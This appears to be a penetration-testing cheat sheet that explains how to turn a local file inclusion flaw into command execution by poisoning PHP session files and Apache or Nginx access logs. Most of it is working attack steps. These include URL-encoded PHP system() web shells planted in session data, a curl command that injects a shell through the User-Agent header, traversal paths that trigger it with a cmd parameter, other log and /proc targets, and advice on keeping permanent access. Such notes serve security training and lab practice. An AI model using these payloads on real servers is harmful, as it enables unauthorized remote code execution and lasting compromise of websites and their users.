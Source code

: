 ### Overview
- Technique: Inject PHP code into a **log file** and include it via **LFI** to execute commands.
- Works if:
    - File inclusion function has **Execute** privilege.
    - Logs are **readable** by the web application (e.g., by `www-data`).

---
## Relevant Functions for Execution

|Function|Read Content|Execute|Remote URL|
|---|---|---|---|
|`include()` / `include_once()` (PHP)|✅|✅|✅|
|`require()` / `require_once()` (PHP)|✅|✅|❌|
|`res.render()` (NodeJS)|✅|✅|❌|
|`import` (Java)|✅|✅|✅|
|`include` (.NET)|✅|✅|✅|

---
## PHP Session Poisoning

### Session Location

- Linux: `/var/lib/php/sessions/`
- Windows: `C:\Windows\Temp\`
- Session file: `sess_<PHPSESSID>`

### Steps

1. **Check your PHPSESSID** from cookies (e.g., `nhhv8i0o6ua4g88bkdl9u1fdsd`).
2. **Include session file** via LFI:
```bash
?language=../../../../var/lib/php/sessions/sess_<PHPSESSID>
```
3. Control session data by sending:
```bash
?language=session_poisoning
```
4. Poison session with PHP shell:
```bash
?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```
5. Trigger execution
```bash
?language=../../../../var/lib/php/sessions/sess_<PHPSESSID>&cmd=id
```
Note: Sessions overwrite frequently, re-poison before each execution or use shell to drop permanent access.

---
## Server Log Poisoning

### Target Logs

- Apache:
    - `/var/log/apache2/access.log` (Linux)
    - `C:\xampp\apache\logs\` (Windows)
- Nginx:
    - `/var/log/nginx/access.log` (Linux)
    - `C:\nginx\log\` (Windows)

### Steps

1. **Include access log**:
```bash
?language=../../../../var/log/apache2/access.log
```
2. Inject PHP shell via User-Agent
	- Using Burp Suite or:
```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```
3. Trigger shell via LFI:
```bash
?language=../../../../var/log/apache2/access.log&cmd=id
```

---
## Alternative Poisoning Targets

### /proc Files

- `/proc/self/environ`
- `/proc/self/fd/N` (N = 0–50)

### Other System Logs

- `/var/log/sshd.log`
- `/var/log/mail`
- `/var/log/vsftpd.log`

Control log contents via SSH, FTP login attempts, or crafted emails.

---
## Tips

- Logs may be **huge**—including them can crash servers.
- Only poison files that you can include and that contain **injectable content**.
- **Efficient log fuzzing** is discussed in the next section.